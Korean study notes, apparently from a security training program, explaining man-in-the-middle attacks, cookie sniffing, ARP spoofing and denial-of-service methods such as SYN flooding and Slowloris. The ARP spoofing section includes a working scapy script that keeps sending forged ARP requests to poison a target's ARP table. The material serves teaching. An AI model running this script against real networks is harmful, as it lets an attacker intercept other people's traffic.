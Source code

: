 ```yaml
---
layout: default
title: 네트워크 해킹 기법 및 보안(보안)
nav_order: 7

parent: Network
grand_parent: Pre-Training Bob

---
```


##### bob 11th 지원대상자가 이수해야 할 사전 교육에 대한 학습 일지입니다.

-----

# MITM attack
- Man In The Middle Attack. 중간자 공격
- 네트워크 통신 내용을 도청하거나 조작하는 공격 기법
- Sniffing(킁킁거리다. 냄새를 맡다)
- Spoofing(오염시키다)

## Cookie Sniffing
### Cookie
- 하이퍼 텍스트 기록 값으로, 인터넷 사용자가 어떠한 웹사이트를 방문할 경우 그 사이트가 사용하고 있는 서버를 통해 인터넷 사용자의 컴퓨터에 설치되는 작은 기록 정보 파일을 일컫는다.
- 오늘날 많은 서버 및 웹사이트들이 브라우저의 신속성을 위해 사용한다.
- 행동추적 또는 쿠키값을 훔쳐서 다른 사용자의 계정 권한을 획득할 수 있다.

|               | Cookie                  | Session                              |
| ------------- | ----------------------- | ----------------------- |
| 저장 위치     | 클라이언트에 저장       | 서버에 저장                          |
| 라이프 사이클 | 보통 만료기간 동안 유지 | 만료기간 존재.  
브라우저 종료 시 삭제 |
| 장점          | 서버 성능 저하 X        | 높은 보안성                          |
| 단점          | 낮은 보안성             | 서버 부담                            |

<br>

## ARP Spoofing

![image-20220605132811718](../img/image-20220605132811718.png)


### ARP table 조작
- ARP Request
  - 출발지 IP, MAC, 도착지 IP 정보를 이용해 목적지의 MAC 정보를 요청
  - 라우터의 IP와 공격자의 MAC을 출발지로 설정하고 타겟에게 요청할 경우, 타켓의 APR table에서 라우터 정보 부분을 공격자의 MAC으로 저장함.

| Opcode | ARP Message Type |
| :----: | :--------------: |
|   1    |   ARP Request    |
|   2    |    ARP Reply     |
|   3    |   RARP Request   |
|   4    |    RARP Reply    |
|   5    |  DRARP Request   |
|   6    |   DRARP Reply    |
|   7    |   DRARP Error    |
|   8    |  InARP Request   |
|   9    |   InARP Reply    |



```python
from scapy.all import *
from subprocess import call
import argparse
import time

op = 1 #arp request op = 1
arg_parser = argparse.ArgumentParser(description='python3 arps.py [target ip] [target mac] [router ip]')
arg_parser.add_argument('tip', help="input target ip address")
arg_parser.add_argument('tmac', help="input target mac address")
arg_parser.add_argument('rip', help="input router ip address")

arg = arg_parser.parse_args()

target_ip = arg.tip
target_mac = arg.tmac
router_ip = arg.rip

arp = ARP(op=op, psrc=router_ip, pdst=target_ip, hwdst=target_mac)

while 1:
	send(arp)
	time.sleep(2)
```



<br>

# DoS/DDos

## DoS
- Denial of Service, 서비스 거부 공격
- 시스템을 악의적으로 공격해 원래 의도된 용도로 사용하지 못하게 한다. 보통 인터넷 사이트 또는 서비스의 기능을 일시적 또는 영구적으로 방해 및 중단을 초래한다.

### 특징
1. 시스템 자원 고갈 공격
  - CPU, 메모리, 디스크 자원 고갈


2. 네트워크 자원 고갈 공격
  - 무의미한 값으로 네트워크 대역폭 고갈 

- 공격자를 찾기가 어려운 편

<br>

## DDoS
- Distributed Denail of Serivce, 분산형 서비스 거부 공격
- 여러 대의 공격자(피해자 컴퓨터)를 분산적으로 배치해 동시에 서비스 거부 공격을 한다.


### ICMP ping Flooding
- 가장 기본적인 Layer3 DoS 공격의 형태.
- Echo request와 Echo response 모두 트래픽을 키울 수 있음.

![image-20220605151525166](../img/image-20220605151525166.png)

- 공격 예시의 패킷 정보를 볼 수 있음
[https://kb.mazebolt.com/knowledgebase/icmp-ping-flood/](https://kb.mazebolt.com/knowledgebase/icmp-ping-flood/)

<br>

### TCP SYN Flooding
- 방화벽과 로드밸런서 등 상태 분석형 요소나 백엔드 서버로의 연결 자원을 소모하게 하는 방법.
- 공격 패킷의 source ip 를 스푸핑하면서 대상 서비스에 아주 많은 TCP SYN 요청을 전송.
- TCP backlog가 포화되어 더이상 새로운 연결을 받을 수 없게 된다.

![image-20220605152146779](../img/image-20220605152146779.png)

[https://kb.mazebolt.com/knowledgebase/syn-flood/](https://kb.mazebolt.com/knowledgebase/syn-flood/)

<br>

### Slowloris Attack
- Robert Hansen이 개발한 서비스 거부 공격 도구
- 가능한 많은 연결을 열어두고 가능한 오랜 기간 유지시키려고 함
- 주기적으로 후속 HTTP 헤더를 보내 요청하지만, 완료시키지 않음
- 최대 동시 연결 풀을 포화시키면 새로운 연결 시도가 거부됨

![image-20220605152648301](../img/image-20220605152648301.png)

[https://kb.mazebolt.com/knowledgebase/slowloris-attack/](https://kb.mazebolt.com/knowledgebase/slowloris-attack/)

- HTTP의 연결은 두 개의 CRLF(0d 0a)가 존재해야하지만 해당 공격은 한 개만 작성하여 아직 연결이 끝나지 않았다는 식의 통신을 지속. 때문에 Wireshark에서도 해당 패킷을 HTTP가 아닌 TCP 패킷으로 인식함
![image-20220605153038805](../img/image-20220605153038805.png)


※ CRLF: 줄바꿈(newline)을 입력하는 문자를 칭하는 표현. /r/n

